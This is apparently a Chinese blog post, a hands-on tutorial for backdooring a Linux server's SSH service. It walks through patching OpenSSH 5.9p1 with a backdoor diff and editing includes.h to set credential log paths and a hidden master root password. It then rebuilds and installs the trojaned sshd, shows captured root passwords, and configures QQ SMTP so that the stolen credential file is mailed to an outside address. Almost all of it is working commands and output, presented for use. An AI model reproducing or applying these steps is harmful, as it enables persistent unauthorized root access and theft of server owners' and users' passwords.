 ```yaml
---
layout: post
title: 黑客是如何安装后门并窃取服务器密码的
categories:
- 今日头条
tags:
---
```

上传后门程序：

0x06-openssh-5.9p1.patch.tar.gz #后门补丁程序

openssh-5.9p1.tar.gz #包括了sshd服务端和 客户端。

安装：

解压文件

[root@xinsz08 tmp]# tar zxvf openssh-5.9p1.tar.gz

[root@xinsz08 tmp]# tar -zxvf 0x06-openssh-5.9p1.patch.tar.gz

安装openssh-5.9p1并打补丁：补丁， 用一些文件替换原来的文件。

[root@xinsz08 tmp]# cd openssh-5.9p1.patch/

[root@xinsz08 openssh-5.9p1.patch]# cp sshbd5.9p1.diff ../openssh-5.9p1

[root@xinsz08 openssh-5.9p1.patch]# cd ../openssh-5.9p1

[root@xinsz08 openssh-5.9p1]#patch < sshbd5.9p1.diff #打补丁

![](http://p1.pstatp.com/large/71e0001e719b321dbe2)

注： 使用0x06-openssh-5.9p1.patch.tar.gz #后门补丁包中的sshbd5.9p1.diff文件修改了 sshd和ssh客户相关的文件。

修改劫持root密码文件夹的目录和默认的root后门密码

注： Linux中一个帐号只有一个密码。 比如root帐号，只有一个密码：123456

一个帐号root有两个密码。 一个密码是正常使用的：123456，另一个密码是后门密码： mkinge

[root@xinsz08 openssh-5.9p1]# vim /tmp/openssh-5.9p1/includes.h 

找到：

改：

#define ILOG "/tmp/ilog"  //这是记录本机帐号密码

#define OLOG "/tmp/olog" //这是记录远程帐号密码

#define SECRETPW "apaajaboleh" //你后门密码

#endif /* INCLUDES_H */

为：

177 #define ILOG "/usr/share/ifile"

178 #define OLOG "/usr/share/ofile"

179 #define SECRETPW "mkinge"

安装：安装打了补丁sshd服务，替换原来的sshd服务。

 [root@xinsz08 openssh-5.9p1]# ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5

注： 检查系统环境，将软件包安装到/usr目录下。 

--with-pam #支持pam认证

--with-kerberos5 #支持kerberos认证

[root@xinsz08 openssh-5.9p1]# make -j 4 # make编译： 把源代码编译成可执行的二进制文件。 -j 4以4个进程同时编译。 速度快。

[root@xinsz08 openssh-5.9p1]# make install #安装

![](http://p3.pstatp.com/large/723000095acf0810c33)

测试：

当用户再次远程登录后,

[root@xinsz08 ~]# ls /usr/share/ifile

/usr/share/ifile

[root@xinsz08 ~]# cat /usr/share/ifile

user:password -->root:123456

到这里我们密码劫持成功了

测试2：root的后门密码

注： Linux中一个帐号只有一个密码。 比如root帐号，只有一个密码：123456

安装后门程序后：

一个帐号root有两个密码。 一个密码是正常使用的：123456，另一个密码是后门密码： mkinge



[root@xinsz08 ~]# echo 234567 | passwd --stdin root

[root@xinsz08 openssh-5.9p1]# ssh root@192.168.1.63

root@192.168.1.63's password:mkinge

Last login: Sat Aug 29 10:29:33 2015 from 192.168.1.224

[root@xinsz08 ~]# cat /usr/share/ofile

user:password@host --> root:mkinge@192.168.1.63

注：Linux系统中一个用户名对应一个密码。 一个root帐号对应两个密码。

注：但是所有密码还是在别人的服务器上，怎么把密码整到自己邮箱？

自动发送邮件：这里以QQ的smtp服务器为例

LINUX下通过外部QQ的SMTP发邮件

[root@xinsz08 ~]# vim /etc/mail.rc

set from=1273815479@qq.com smtp=smtp.qq.com

set smtp-auth-user=1273815479 smtp-auth-password= smtp-auth=login

注：

set from=815479@qq.com #指定发件人的邮箱，这里我们就写成和收件人的邮箱一样。

set smtp-auth-user=815479 #写自己发件人的邮箱帐号

smtp-auth-password=123456  #写自己发件人的邮箱密码

测试：

[root@xinsz08 ~]# mail -s "demo title" 1273815479@qq.com < /usr/share/ifile

好了，现在你可以看一下，是否收到了邮件，同时在改几次密码，你会发现无论怎么改密码都会发到你的邮箱里了。
